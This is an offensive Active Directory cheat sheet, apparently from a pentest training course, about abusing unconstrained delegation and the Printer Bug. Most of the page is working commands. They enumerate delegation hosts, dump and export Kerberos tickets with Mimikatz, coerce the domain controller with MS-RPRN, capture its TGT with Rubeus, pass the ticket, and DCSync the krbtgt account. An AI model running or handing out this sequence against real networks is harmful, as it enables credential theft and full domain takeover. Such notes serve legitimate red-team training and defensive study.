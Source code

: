 ### Tool

**1. Discover domain hosts (e.g machine account) which have unconstrained delegation using PowerView (Note: DC will always show up)**

<pre class="language-powershell"><code class="lang-powershell">Get-DomainComputer -unconstrained
<strong>Get-NetComputer -UnConstrained
</strong></code></pre>

Using AD Module

<pre class="language-powershell"><code class="lang-powershell"><strong>Get-ADComputer -Filter {TrustedForDelegation -eq $true}
</strong>Get-AD-User -Filter {TrustedForDelegation -eq $true}
</code></pre>

❓ Elevated/System priv. required or high integrity process!

**2. Compromise the server where Unconstrained Delegation is enabled and get all the Kerberos Tokens - wait for admin user to connect or force it with Printerbug etc.**

<pre class="language-powershell"><code class="lang-powershell">Compromise the server where Unconstrained Delegation is enabled, then
<strong>Invoke-Mimikatz -command '"sekurlsa::ticket"'
</strong>Invoke-Mimikatz -command '"sekurlsa::ticket /export"'  //saves it to the disk - then ls | select name
</code></pre>

**3. Reuse the token**&#x20;

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -command '"kerberos::ptt C:\path\to\ticket.kirbi"'
```
{% endcode %}

## **🖨 Printer Bug**

### Description

* Print Bug can be used to trick a high priv user to connect to a machine with unconstrained delegation
* Feature MS-RPRN which allows any domain user (Authenticated user) to force any machine, running the Spooler service, to connect to a second machien of the domain.
* We can force the dc to connect to appserver abusing Printer Bug

**Requirement**

* Control over an unconstrained delegation machine

**Tool**

Capture TGT of the dchost on the appserver host, then run MS-RPRN.exe ([https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample))

{% code overflow="wrap" %}
```
.\rubeus.exe monitor /interval:1 /nowrap  //do that on unconstrained macihine
.\rubeus.exe monitor /targetuser:your-specific-user /interval:1 /nowrap   //if only specific User should be monitored, useful when a lot of activity
MS-RPRN.exe \\dchost.dom.local \\appserver.dom.local    //do that on studentmachine

Copy the base64 encoded TGT, remove extra spaces/crlf if any, and use it on another host
.\rubeus.exe ptt /ticket:...

Run DCSync
Invoke-Mimikatz -command '"lsadump::dcsync /user:dom\krbtgt"'
C:\AD\Tools\SharpKatz.exe --Command dcsync --User
us\krbtgt --Domain us.techcorp.local --DomainController usdc.us.techcorp.local
```